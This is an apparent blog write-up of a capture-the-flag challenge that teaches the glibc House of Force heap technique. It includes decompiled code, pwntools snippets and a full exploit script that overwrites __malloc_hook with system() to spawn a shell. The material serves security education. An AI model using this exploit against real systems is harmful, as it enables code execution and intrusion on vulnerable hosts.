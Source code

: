 ```yaml
---
title: "Exploring Heap Exploitation: The House of Force Technique"
layout: post
author: Jorge Moreno
---
```



> The House of Force attack is a heap exploitation technique that relays in abusing a heap overflow bug into corrupting the top chunk size, that way we can allocate enough memory to trigger an arbitrary write vulnerability.
> 

We are going to use the vulnerable binary from the [Use the Force, Luke](https://ctftime.org/task/19958) challenge. I downloaded the files from [this writeup](https://diegoaltf4.com/heap-exploitation-0x02/) created by DiegoAltF4.

For versions GLIBC versions prior to 2.29, top chunk size fields are not subject to integrity checks, so if we have a heap overflow bug we can overflow the user data of a chunk into the size field, modifying it with an arbitrary value.

|  | size of the chunk |
| --- | --- |
| USER DATA | USER DATA |
| USER DATA | TOP CHUNK SIZE |

In this example we allocate a chunk for the minimum size 0x20, and fill with A’s the user data and then send `\xff * 8` to change the top chunk size.

|  | 0x0000000000000021 |
| --- | --- |
| 0x4141414141414141 | 0x4141414141414141 |
| 0x4141414141414141 | 0xffffffffffffffff |

This way we can, for example, set the top chunk size to 0xffffffffffffffff, so next time we `malloc` we can allocate a large amount of bytes. Then we can `malloc` again, and write data to any address in memory. To get code execution we can use `__malloc_hook`. The hook is a component that some functions have to modify the behaviour of it in case we need it to do something different. If `__malloc_hook` points to NULL, it will act like a default `malloc`, but if inside it there is any address it will jump into it, executing whatever there is inside. 

## Challenge Solution

---

We are given a binary **force** with a directory **.glibc/** with the libc binary that the executable uses.

First, we check the file with `checksec` command.

![Untitled](images/house-of-force/Untitled.png)

As we can see it doesn’t have PIE enabled but has stack protector and the No eXecute bit enabled.

The libc version that it uses is 2.28, it is < 2.29 so it doesn’t have any security checks in the top chunk size. Now let's decompile the binary and see the code.

```c
undefined8 main(void)

{
  long buf;
  long in_FS_OFFSET;
  int option;
  int i;
  size_t bytes_to_allocate;
  void *heap_leak;
  void *buffer;
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  puts("\"This is our chance to destroy the Death Star, Luke\"");
  printf("You feel a system at %p\n",system);
  heap_leak = malloc(0x88);
  printf("You feel something else at %p\n",(long)heap_leak + -0x10);
  free(heap_leak);
  for (i = 0; i < 4; i = i + 1) {
    puts("(1) Reach out with the force");
    puts("(2) Surrender");
    __isoc99_scanf(&DAT_00400b62,&option);
    if (option == 2) break;
    printf("How many midi-chlorians?: ");
    __isoc99_scanf("%llu",&bytes_to_allocate);
    printf("What do you feel?: ");
    local_18 = malloc(bytes_to_allocate);
    buf_size = malloc_usable_size(local_18);
    read(0,buffer,buf_size + 8);
  }
  if (canary == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

The program first prints to us 2 addresses, the `system` function and the top of the heap. Then asks us to choose an option. 

1. Uses `malloc` to allocate `local_18` bytes in the heap and then reads from stdin the usable size of the malloc + 8 (heap overflow). Up to 4 times.
2. Exit the program

To leverage the attack we will do the next steps:

1. Allocate a first chunk to trigger the overflow to corrupt the top chunk size
2. Calculate the distance between the top chunk (`heap_leak + 0x20`) and the address we want to write - 0x20 (we substract 32 bytes because of the first 0x20 bytes before user data)
3. `malloc` a second time to store the string ``/bin/sh\x00`` to use it later as a parameter to the `system` function and to move the top chunk to the address `__malloc_hook - 0x20`.
4. `malloc` a third time to write the system address leak that we had into `__malloc_hook`.
5. And `malloc` the last time passing as a parameter the address where we stored the ``/bin/sh`` string to get our shell. 

---

We define the following Python helper method to `malloc`.

```python
def malloc(size, data):
    io.sendlineafter(b'Surrender', b'1')
    io.sendlineafter(b'?:', str(size).encode())
    io.sendlineafter(b'?:', data)
```

Then we send 1 byte so it creates the minimum size chunk (0x20) and send the data to trigger the overflow bug and visualize it with `vis` in gdb-pwndbg.

```python
[...]
malloc(1, b'A' * 0x18 + p64(0xffffffffffffffff))
io.interactive()
```

![Untitled](images/house-of-force/Untitled%201.png)

After that we calculate the distance between `__malloc_hook` and `heap + 0x20` to allocate enough memory and store the ``/bin/sh`` string.

```python
[...]
diff = (libc.sym.__malloc_hook - 0x20) - (heap_leak + 0x20)
malloc(diff, b'/bin/sh\0')
io.interactive()
```

Let's visualize it now with pwndbg. Because we allocated a lot of bytes we will now dump memory with `dq &mp_.sbrk_base`. Because `vis` will be bugged. The bytes `0x0068732f6e69622f` are the string `/bin/sh`

![Untitled](images/house-of-force/Untitled%202.png)

![Untitled](images/house-of-force/Untitled%203.png)

We can see now that the top chunk is right above `__malloc_hook` so next time we create a chunk we will overwrite its content.

```python
[...]
malloc(1, p64(system_leak))
# The size "1" requests a minimum size chunk -> 0x20
```

Now we have written the address of `system` inside the `__malloc_hook` so next time we call the function it will call `system` with the parameter we pass to it.

![Untitled](images/house-of-force/Untitled%204.png)

We just add now the following code to the script `malloc(heap_leak + 0x30, "")`and it will take the string `/bin/sh` as a parameter to the `system()` function, thus giving us a shell.

![Untitled](images/house-of-force/Untitled%205.png)

## Full Script

---

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './force', checksec = False)
libc = ELF('./.glibc/glibc_2.28_no-tcache/libc.so.6', checksec = False)

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())

def malloc(size, data):
    io.sendlineafter(b'Surrender', b'1')
    io.sendlineafter(b'?:', str(size).encode())
    io.sendlineafter(b'?:', data)

io = start()

io.recvuntil(b'system at')
system_leak = int(io.recvline(), 16)
libc.address = system_leak - libc.sym.system

io.recvuntil(b'else at')
heap_leak = int(io.recvline(), 16)

malloc(1, b'A' * 0x18 + p64(0xffffffffffffffff))

diff = (libc.sym.__malloc_hook - 0x20) - (heap_leak + 0x20)
info(f"0x{diff:02x} bytes to __malloc_hook")

malloc(diff, b'/bin/sh\0')
malloc(1, p64(system_leak))
malloc(heap_leak + 0x30, "")

io.interactive()
```

